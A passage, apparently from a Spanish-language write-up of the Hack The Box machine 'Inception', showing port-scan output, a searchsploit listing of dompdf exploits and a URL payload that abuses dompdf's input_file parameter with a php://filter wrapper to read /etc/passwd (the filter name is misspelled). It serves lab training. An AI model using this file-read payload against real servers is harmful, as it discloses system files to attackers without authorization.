 ```bash
000000022:   200        2 L      4 W        60 Ch       "22"                                                                                                                                                                         
000000080:   200        1051 L   169 W      2877 Ch     "80"                                                                                                                                                                         

Total time: 21.75850
Processed Requests: 1000
Filtered Requests: 998
Requests/sec.: 45.95904
```
En los primeros mil puertos solo encontramos abiertos el 22 y 80.
# Ejecucion de comandos como www-data en el contenedor
Inpeccionando mejor la web en el puerto 80 me encuentro con el siguiente comentario.
<img class="img" src="/assets/img/machines/Inception/3.png" width="800">
Al parecer un dompdf esta trabajando por detras en la maquina, sabiendo esto trato de encontrar vulnerabilidades de este.
```bash
searchsploit dompdf
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read                                                                                                                                                        | php/webapps/33004.txt
dompdf 0.6.0 beta1 - Remote File Inclusion                                                                                                                                                                  | php/webapps/14851.txt
TYPO3 Extension ke DomPDF - Remote Code Execution                                                                                                                                                           | php/webapps/35443.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Entre las posibles vulnerabilidades encontre que el Arbitrary File Read funcionaba.
http://inception.htb/dompdf/dompdf.php?input\_file=php://filter/read=convert.base64-enconde/resource=/etc/passwd